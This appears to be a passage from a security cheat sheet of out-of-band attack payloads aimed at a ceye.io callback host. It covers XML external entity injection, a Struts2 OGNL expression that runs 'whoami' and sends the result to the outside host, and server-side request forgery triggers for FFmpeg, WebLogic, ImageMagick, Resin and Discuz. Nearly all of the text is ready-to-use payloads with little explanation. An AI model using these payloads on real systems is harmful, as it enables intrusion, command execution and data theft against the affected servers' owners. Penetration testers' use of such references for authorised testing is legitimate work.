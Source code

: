#### 0x02 XML Entity Injection

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://ip.port.b182oj.ceye.io/xxe_test">
%remote;]>
<root/>
```

#### 0x03 Others

##### i. Struts2

```
xx.action?redirect:http://ip.port.b182oj.ceye.io/%25{3*4}
xx.action?redirect:${%23a%3d(new%20java.lang.ProcessBuilder(new%20java.lang.String[]{'whoami'})).start(),%23b%3d%23a.getInputStream(),%23c%3dnew%20java.io.InputStreamReader(%23b),%23d%3dnew%20java.io.BufferedReader(%23c),%23t%3d%23d.readLine(),%23u%3d"http://ip.port.b182oj.ceye.io/result%3d".concat(%23t),%23http%3dnew%20java.net.URL(%23u).openConnection(),%23http.setRequestMethod("GET"),%23http.connect(),%23http.getInputStream()}
```

##### ii. FFMpeg

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://ip.port.b182oj.ceye.io
#EXT-X-ENDLIST
```

##### iii. Weblogic

```
 xxoo.com/uddiexplorer/SearchPublicRegistries.jsp?operator=http://ip.port.b182oj.ceye.io/test&rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Businesslocation&btnSubmit=Search
```

##### iv. ImageMagick

```
push graphic-context
viewbox 0 0 640 480
fill 'url(http://ip.port.b182oj.ceye.io)'
pop graphic-context
```

##### v. Resin

```
xxoo.com/resin-doc/resource/tutorial/jndi-appconfig/test?inputFile=http://ip.port.b182oj.ceye.io/ssrf
```

##### vi. Discuz

```
http://xxx.xxxx.com/forum.php?mod=ajax&action=downremoteimg&message=[img=1,1]http://ip.port.b182oj.ceye.io/xx.jpg[/img]&formhash=xxoo
```

